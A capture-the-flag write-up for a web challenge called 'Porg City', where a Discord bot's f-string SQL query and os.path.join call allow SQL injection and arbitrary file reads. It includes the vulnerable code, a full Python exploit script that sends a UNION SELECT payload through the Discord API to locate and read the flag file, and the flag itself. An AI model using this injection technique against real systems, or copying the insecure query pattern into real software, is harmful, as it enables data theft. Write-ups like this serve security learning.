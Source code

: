 https://ctftime.org/event/2252/

# Porg City (WEB)

https://discord.gg/3CxRJhTgxs

## Solution
The challenge starts with a discord server about porgs? (star wars stuff)
On the server there is a Porg Bot that responds to 3 commands when you dm it

- helpme
    - instructions on how to use it
- porg   
    - gets another user profile
- source
    - send source code

On the source code we can see that there is a sqli injection
```python
query = f"SELECT * FROM porgs WHERE name LIKE '{name}'"
try:
    cursor.execute(query)
    results = cursor.fetchall()
except Exception as e:
    await ctx.send("Error: " + str(e))
    return
```

the results of the query is then later used by:
```python
img = disnake.File(os.path.join('/srv/images/', porg.image))
```

Which then is sent by the bot.

Since `os.path.join` is used we can choose any absolute path we want because
the second argument will override the first for some reason.

So we have a file read, unfortunately we still need to find out where the flag is since the flag dir is randomized.
For that we can use `pragma_database_list` from sqlite that gives us the path of database.
I had no idea about that, my teammate found out.

So the final exploit:
```python
import requests


BOT = '<@1223832036809248789>'
CHANNEL = '1241105310324887693'

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0',
    'Accept': '*/*',
    'Accept-Language': 'pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3',
    'Content-Type': 'application/json',
    'Authorization': '<ADD_TOKEN>',
    'Origin': 'https://discord.com',
    'Connection': 'keep-alive',
}

def run(file):
    json_data = {
        'mobile_network_type': 'unknown',
        'content': f"<@611303337182363706> porg ' UNION SELECT * , '1', '" + file + "' FROM pragma_database_list;--",
        'tts': False,
        'flags': 0,
    }

    response = requests.post(
        'https://discord.com/api/v9/channels/' + CHANNEL + '/messages',
        headers=headers,
        json=json_data,
    )
    print(response.status_code)

def get_all():
    response = requests.get(
        'https://discord.com/api/v9/channels/' + CHANNEL + '/messages',
        headers=headers,
    )

    return str(response.json())

run('jen.webp')
res = get_all()

import re
dir = re.search('(/usr/src/app/[\w/]+/porgs.db)', res).group(0)
dir = dir.replace('porgs.db', 'flag.txt')

run(dir)
res = get_all()

flag = re.search('(https://cdn.discordapp.com/attachments/[0-9]{19}/[0-9]{19}/flag.txt\\?ex=.+?&\')', res).group(0)[:-1]
res = requests.get(flag)
print(f"DEBUGPRINT[9]: lab.py:54: res.text={res.text}")
```

## Flag
`byuctf{hehehe_hASWHHyrc9_https://i.imgflip.com/8l27ka.jpg}`

shafou - 18/05/2024
